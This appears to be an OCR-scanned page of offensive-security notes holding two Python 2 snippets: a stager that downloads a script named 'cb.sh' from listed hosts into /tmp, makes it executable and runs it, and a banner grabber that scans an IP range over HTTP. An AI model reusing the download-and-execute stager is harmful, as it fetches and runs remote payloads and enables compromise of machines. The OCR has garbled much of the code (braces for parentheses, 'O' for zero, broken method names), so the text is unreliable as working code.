 ### Get the file from http and run it


```text
#!/usr/bin/python
import urllib2, os

urls = [ "1 1.1.1.1","2.2.2.2"]
port = "80"
payload = "cb.sh"

for url in urls:
    u = "http://%s:%s/%s" % (url, port, payload)
    try:
        r = urllib2.urlopen(u)
        wfile = open{"/tmp/cb.sh", "wb")
        wfile.write(r.read())
        wfile. close ()
        break
    except: continue

if os.path.exists("/tmp/cb.sh"):
    os.system("chmod 700 /tmp/cb.sh")
    os. system ( "/tmp/cb. sh")
```

### Receiving the banner in python \(\* the range of ip and ports and its delay should be specified\)

```text
#!/usr/bin/python
import urllib2, sys, time

from optparse import OptionParser

parser = OptionParser()
parser.add option{''-t'', dest=''iprange'', help=''target IP range, i.e.
192.168.1.1-25")
parser.add option(''-p'', dest=''port'',default=''80'',help=''port, default=BO'')
parser.add=option("-d", dest="delay",default=".5",help="delay (in seconds),
default=.5 seconds")

(opts, args) = parser.parse_args()

if opts.iprange is None:
     parser.error("you must supply an IP range")

ips = []
headers={}

octets= opts.iprange.split(' .')

start= octets[3] .split('-') [0]
stop = octets [3]. split ( '-' ) [ 1 ]

for i in range(int(start),int(stop)+1):
     ips.append('%s.%s.%s.%d' % (octets[O],octets[1] ,octets[2],i))
print '\nScanning IPs: %s\n' % (ips)

for ip in ips:
     try:
         response= urllib2.urlopen('http://%s:%s' % (ip,opts.port))
         headers[ip] = dict(response.info())
     except Exception as e:
         headers[ip] = "Error: " + str(e)
```